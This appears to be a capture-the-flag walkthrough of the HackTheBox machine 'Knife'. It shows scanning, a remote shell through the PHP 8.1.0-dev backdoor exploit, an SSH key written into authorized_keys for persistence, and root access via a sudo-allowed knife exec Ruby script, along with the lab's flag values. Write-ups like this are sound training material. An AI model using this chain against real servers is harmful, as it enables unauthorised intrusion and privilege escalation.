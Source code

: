 ```yaml
---
title: Knife
date: 2021-06-05 22:20:00 +0200
categories: [machine]
tags: [hackthebox]
toc: false
---
```


# Enumeration
## NMAP Scan
Apache 2.4.41 (Port 80) and OpenSSH (Port 22) are running on this machine.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $sudo nmap -sC -sV 10.10.10.242
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Website
Upon visiting the website, not much is remarkable. No form, no hidden folders/files or anything else.
![](/assets/img/knife_box.png#center)
## Vulnerability
The running services do not seem to be vulnerable, so lets check the PHP version.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $nmap -sV --script=http-php-version 10.10.10.242 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-04 18:47 CEST
Nmap scan report for 10.10.10.242
Host is up (0.065s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-php-version: Version from header x-powered-by: PHP/8.1.0-dev
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Bingo - `PHP 8.1.0-dev` - that looks promising
# Exploitation
[PHP verion 8.1.0-dev](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) was released with a backdoor in March 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
With a [POC script](https://www.exploit-db.com/exploits/49933) from exploit-db we get access to a shell.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $python 49933.py 
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
$ whoami
james
$ echo "ssh-rsa AAAAB3Nza...6ZMeJjY1iiRM= x7f@pWnbox" >> ~/.ssh/authorized_keys
```
We add our ssh public key to the authorized_keys file. With that we can now ssh into the machine with the user James - without being asked for a password.
``` bash
┌─[x7f@pWnbox]─[/ctf/hackthebox/machines/knife]
└──╼ $ssh james@10.10.10.242
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-72-generic x86_64)
...
james@knife:~$ cat user.txt
```
The first flag is snatched, now it's on to the second one
# Root
First check what we can do with root rights.
``` bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Lets run it and check what we can do with it.
``` bash
james@knife:~$ sudo knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
...
** EXEC COMMANDS **
knife exec [SCRIPT] (options)
...
```
Great, we can run scripts - now we just need to find out what kind of scripts are accepted.
``` bash
james@knife:~$ cat /usr/bin/knife
#!/opt/chef-workstation/embedded/bin/ruby --disable-gems
#--APP_BUNDLER_BINSTUB_FORMAT_VERSION=1--
require "rubygems"
```
It is written in Ruby. We can try to run a Ruby script.
``` bash
james@knife:~$ echo "system('cat /root/root.txt');" > exploit.rb
james@knife:~$ sudo knife exec exploit.rb
25f5f43858ccbf6b28c3466b4954b9a2
```
Got the second flag and we are done here. ٩(◕‿◕｡)۶